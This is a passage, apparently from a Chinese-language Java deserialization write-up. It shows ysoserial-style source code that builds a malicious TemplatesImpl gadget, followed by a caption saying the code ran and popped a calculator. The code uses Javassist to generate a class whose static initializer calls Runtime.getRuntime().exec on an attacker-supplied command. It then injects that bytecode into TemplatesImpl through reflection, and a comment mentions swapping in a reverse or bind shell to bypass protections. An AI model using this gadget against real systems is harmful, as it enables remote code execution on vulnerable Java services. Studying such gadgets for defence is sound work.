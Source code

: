 ```java
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        return templates;
    }
}
```

代码被成功执行，计算器被弹出：
